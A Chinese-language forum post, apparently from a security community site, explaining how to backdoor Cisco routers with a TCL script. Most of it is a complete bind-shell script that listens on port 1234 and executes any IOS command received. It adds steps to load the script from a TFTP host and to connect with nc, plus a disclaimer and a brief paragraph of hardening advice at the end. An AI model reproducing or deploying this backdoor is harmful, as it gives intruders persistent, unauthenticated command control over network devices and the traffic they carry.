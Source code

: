 # 给CISCO设备中后门的方法--TCL 以及路由安全

之前在 zone 里边有人讨论过CISCO 的后门问题我就说了个利用TCL cisco 的一个脚本处理技术详见[http://www.cisco.com/en/US/docs/ios/12_3t/12_3t2/feature/guide/gt_tcl.html](http://www.cisco.com/en/US/docs/ios/12_3t/12_3t2/feature/guide/gt_tcl.html)现在给整理出来。郑重声明本人仅讨论方法与该技术如利用此技术给他人造成的经济损失与本人无关。 首先给出脚本此脚本非本人所写国外已经有大牛写出来了

```
# TclShell.tcl v0.1 by Andy Davis, IRM 2007

#

# IRM accepts no responsibility for the misuse of this code

# It is provided for demonstration purposes only

proc callback {sock addr port} {  
fconfigure $sock -translation lf -buffering line  
puts $sock " "  
puts $sock "---|---|---|---|---|---|---|---|---|---|---|---|-"  
puts $sock "TclShell v0.1 by Andy Davis, IRM 2007"  
puts $sock "---|---|---|---|---|---|---|---|---|---|---|---|-"  
puts $sock " "  
set response [exec "sh ver | inc IOS"]  
puts $sock $response  
set response [exec "sh priv"]  
puts $sock $response  
puts $sock " "  
puts $sock "Enter IOS command:"  
fileevent $sock readable [list echo $sock]  
}  
proc echo {sock} {  
global var  
if {[eof $sock] || [catch {gets $sock line}]} {  
} else {  
set response [exec "$line"]  
puts $sock $response  
}  
}  
set port 1234  
set sh [socket -server callback $port]  
vwait var  
close $sh

```在CISCO设备上运行如下命令需要有tftp```
Router#tclsh

Router(tcl)#source tftp://1.1.1.2/backdoor.tcl

```设备会变成假死状态因此不建议在console下运行基本上也不可能，在其他机器上```
nc 路由器IP 1234

```

附截图一张

![20130129153731_80467.jpg](http://static.wooyun.org/20131018/2013101807230255315.jpg)  

防御办法其实这个功能本来是方便给网络攻城狮批量配置和测试使用的。因此需要LV 15的权限因此只要LV15的权限还在就没有太大问题。其实CISCO 设备的菊花还是不太好爆的除了有0day 基本上都是因为人为的配置不当产生的，常见的比如配置了可写的但是很SB的SNMP，开放了一些不怎么使用或者有危险的服务.比如未授权的http 而且不用认证就可以跑配置出来或者使用了enable password 而不是 enable secret 设置密码，要不就是使用了弱密码，如果这些如果杜绝了基本上菊花差不多就可以保住了
